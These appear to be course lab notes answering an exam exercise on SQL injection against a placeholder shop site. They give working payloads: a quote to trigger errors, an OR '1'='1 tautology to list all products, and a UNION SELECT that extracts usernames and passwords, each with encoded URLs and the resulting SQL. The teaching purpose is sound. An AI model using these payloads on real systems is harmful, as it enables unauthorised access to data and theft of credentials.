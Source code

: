     <!-- Placeholder for SQL Injection Flow Diagram (Slide 51) -->

3.  **SQL Injection Lab Exercise (Based on Exam Paper TD N°3, Exercice 01 & File 5.1)**
    *   **a. Scenario & Vulnerable Query:**
        *   URL: `https://insecure-website.com/products?category=Gifts`
        *   Server-side SQL (conceptual):
            ```sql
            SELECT id, nom, category, price
            FROM products
            WHERE category = '<userInputFromCategoryParam>' AND released = 1;
            ```
    *   **b. Q1 – Confirming Vulnerability (Comment vérifier que le site est vulnérable):**
        *   **Method:** Induce a syntax error with an unmatched quote.
        *   **Payload:** `Gifts'`
        *   **Test URL:** `https://insecure-website.com/products?category=Gifts'`
        *   **Expected Outcome:** A database error message (or broken page) confirms unescaped input reaches the SQL engine. The query becomes `... WHERE category = 'Gifts'' AND released = 1`, which is invalid SQL.
    *   **c. Q2 – Displaying All Products (Construire une attaque qui permet d'afficher tous les produits):**
        *   **Objective:** Bypass both the category filter and the `AND released = 1` check.
        *   **Technique:** Use a tautology (`' OR '1'='1'`) and a comment (`-- `) to neutralize the rest of the query.
        *   **Payload:** `' OR '1'='1 -- ` (Note the trailing space for the comment)
        *   **Encoded URL:** `https://insecure-website.com/products?category=%27%20OR%20%271%27%3D%271%20--%20`
        *   **Resulting SQL:**
            ```sql
            SELECT id, nom, category, price
            FROM products
            WHERE category = '' OR '1'='1' -- ' AND released = 1;
            ```
            The `WHERE` clause effectively becomes `TRUE`, and `AND released = 1` is commented out.
        *   **Impact:** All rows in `products` are returned.
    *   **d. Q3 – Injection Type / Significance of Displayed Results (Les résultats ... sont renvoyés et affichés):**
        *   **Observation:** The application returns query results directly in its HTTP response.
        *   **Conclusion:** This signifies **In-Band SQL Injection**. The attacker retrieves data via the same channel used to inject the payload.
    *   **e. Q4 – Extracting the `user` Table (Construire une attaque pour récupérer les données de la table user):**
        *   **Objective:** Retrieve `id, name, utilisateur, password, type_account, date` from the `user` table.
        *   **Method:** `UNION SELECT`. The original query selects 4 columns (`id, nom, category, price`). The `UNION SELECT` must also have 4 columns with compatible data types.
        *   Let's pick 4 columns from `user` table: `id, name, password, type_account`. (Assuming `utilisateur` is the username, and `name` is perhaps full name. The problem lists `name, utilisateur, password` - so let's use 3 of those and one `id` to make 4 columns.)
        *   **Payload (example using 4 columns):** `' UNION SELECT id, name, password, type_account FROM user -- `
        *   If we need to match specific names from the problem: `id, name, utilisateur, password`.
        *   **Payload:** `' UNION SELECT id, name, utilisateur, password FROM user -- `
        *   **Encoded URL:** `...products?category=%27%20UNION%20SELECT%20id%2C%20name%2C%20utilisateur%2C%20password%20FROM%20user%20--%20`
        *   **Combined SQL:**
            ```sql
            SELECT id, nom, category, price
            FROM products
            WHERE category = '' -- This part might return no results for category=''
            UNION
            SELECT id, name, utilisateur, password -- These values will be displayed
            FROM user; -- ' AND released = 1; is commented out
            ```